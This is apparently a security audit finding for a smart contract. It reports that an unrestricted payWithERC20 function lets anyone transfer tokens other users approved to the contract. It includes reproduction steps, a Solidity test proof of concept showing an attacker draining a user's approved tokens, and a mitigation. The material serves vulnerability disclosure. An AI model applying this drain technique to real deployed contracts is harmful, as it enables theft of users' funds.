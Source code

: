 Tart Watermelon Tortoise

High

# Permissionless payWithERC20 lead anyone to steal allowed transfer of ERC20 token from others to their own address

## Summary

The missing permission to call [payWithERC20](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32) function from file `Payment.sol` could lead anyone to drain the whitelisted ERC20 to themself. 

Bad actor can listen to allow sign/tx of an ERC20 token to the contract, and then they could directly send the allowed amount of token to themself. User can lost all the fund they are going to use for this contract.

## Steps to Reproduce

1. User needs to approve the contract to send ERC20 from the user address to somewhere else with a specific amount, 100 USDC
2. Malicious actor send the approved ERC20 token transfer from User to malicious address by calling `payWithERC20`

## POC

```solidity
function test_drainERC20FromOtherUser() public {
        // set 2 users: user and attacker
        address user = address(0x1);
        address attacker = address(0x2);

        // mint tokens to the user
        uint256 userTokenAmount = 100 * 10 ** 18;
        mockToken.mint(user, userTokenAmount);

        // check if user has 100 tokens and attacker has 0 tokens
        assertEq(mockToken.balanceOf(user), userTokenAmount);
        assertEq(mockToken.balanceOf(attacker), 0);

        // user whitelist the blueprint contract to transfer tokens on their behalf
        vm.prank(user);
        mockToken.approve(address(blueprint), userTokenAmount);
        vm.stopPrank();

        // attacker calls the blueprint contract to transfer tokens from the user
        vm.prank(attacker);
        blueprint.payWithERC20(address(mockToken), userTokenAmount, user, attacker);
        vm.stopPrank();

        // check if user has 0 tokens and attacker has 100 tokens
        assertEq(mockToken.balanceOf(user), 0);
        assertEq(mockToken.balanceOf(attacker), userTokenAmount);
    }
```

Transaction should fail and user token should remain 100. But when we run the test, transaction succeed and user lost 100 of their token, and attacker gain 100 token.

## Mitigation

Function should be internal or add permission or whitelisted address who could call this function